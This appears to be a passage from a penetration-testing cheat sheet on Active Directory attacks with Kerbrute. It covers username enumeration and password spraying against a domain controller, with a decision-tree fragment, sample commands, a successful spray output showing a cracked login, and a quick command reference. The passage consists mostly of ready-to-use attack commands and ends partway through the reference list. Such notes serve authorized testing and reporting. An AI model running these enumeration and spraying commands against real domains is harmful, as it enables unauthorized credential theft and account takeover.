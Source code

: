 ```
│   │
│   └─ Got valid creds from spray?
│       └─ YES → BloodHound + Certipy immediately
│
└─ NO (already have creds)
    └─ Skip Kerbrute, use existing creds
```

---

## Evidence Collection

**For enumerated users:**
```bash
# Command
kerbrute userenum --dc 10.10.10.10 -d corp.local users.txt -o valid.txt

# Output
cat valid.txt
# john.doe@corp.local
# admin@corp.local
# sqlservice@corp.local

# Screenshot of Kerbrute output
```

**For password spray success:**
```
# Command
kerbrute passwordspray --dc 10.10.10.10 -d corp.local users.txt 'Welcome2024!'

# Output
[+] VALID LOGIN:  john.doe@corp.local:Welcome2024!

# Impact
Valid domain credentials obtained via password spray.
User 'john.doe' authenticated with weak password 'Welcome2024!'
Credentials used for further enumeration and privilege escalation.
```

---

## Quick Command Reference

```bash
# Username enumeration (basic)
kerbrute userenum --dc DC_IP -d DOMAIN users.txt

# Save valid users to file
kerbrute userenum --dc DC_IP -d DOMAIN users.txt -o valid-users.txt

# Verbose output
kerbrute userenum --dc DC_IP -d DOMAIN users.txt -v

# Password spray
kerbrute passwordspray --dc DC_IP -d DOMAIN users.txt 'Password123'

# Save successful logins
kerbrute passwordspray --dc DC_IP -d DOMAIN users.txt 'Welcome2024!' -o success.txt

# Adjust threads (default 10)
kerbrute userenum --dc DC_IP -d DOMAIN -t 20 users.txt

# Safe mode (slower, more reliable)
```